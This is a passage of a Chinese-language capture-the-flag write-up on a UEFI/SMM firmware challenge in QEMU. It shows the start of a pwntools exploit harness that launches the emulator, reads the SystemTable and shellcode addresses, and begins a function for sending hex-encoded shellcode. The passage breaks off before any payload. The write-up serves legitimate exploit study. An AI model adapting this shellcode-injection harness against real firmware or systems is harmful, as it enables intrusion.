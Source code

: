 利用的第一步往往是写脚本把题目跑起来并且找到调试的办法，这道题中继续用 pwntools 加载 qemu，参数照抄 run.sh：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#  author: @eastXueLian

from pwn import *
import lianpwn
import subprocess

context.log_level = "info"
context.arch = "amd64"
context.terminal = ["tmux", "sp", "-h", "-l", "120"]

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

LOCAL = 1
filename = "./qemu-system-x86_64 -no-reboot -machine q35,smm=on -cpu max -net none -serial stdio -display none -vga none -global ICH9-LPC.disable_s3=1 -global driver=cfi.pflash01,property=secure,value=on -drive if=pflash,format=raw,unit=0,file=OVMF_CODE.fd,readonly=on -drive if=pflash,format=raw,unit=1,file=OVMF_VARS_copy.fd -drive format=raw,file=fat:rw:rootfs -s".split()
if LOCAL:
    subprocess.run("cp OVMF_VARS.fd OVMF_VARS_copy.fd".split())
    io = process(filename)
else:
    remote_service = ""
    remote_service = remote_service.strip().split(":")
    io = remote(remote_service[0], int(remote_service[1]))

lianpwn.lg_inf(
    "STEP 0: Receive SystemTable and shellcode Address and Attach to Debugger"
)
ru(b"Address of SystemTable: 0x")
SystemTable_addr = int(rl(), 16)
ru(b"Address where I'm gonna run your code: 0x")
shellcode_addr = int(rl(), 16)
lianpwn.lg("SystemTable_addr", SystemTable_addr)
lianpwn.lg("shellcode_addr", shellcode_addr)
lianpwn.debugB()


def dump_register(reg_list):
    assert len(reg_list) == 15
    for i in range(15):
        lianpwn.info(f"reg[{i}] -> {hex(reg_list[i])}")


def execute_shellcode(shellcode, cowsay=False):
    result = []
    shellcode = shellcode.hex().encode()
    s(shellcode + b"\r\n" + b"done\r\n")
    ru(b"Running...\r\n")
```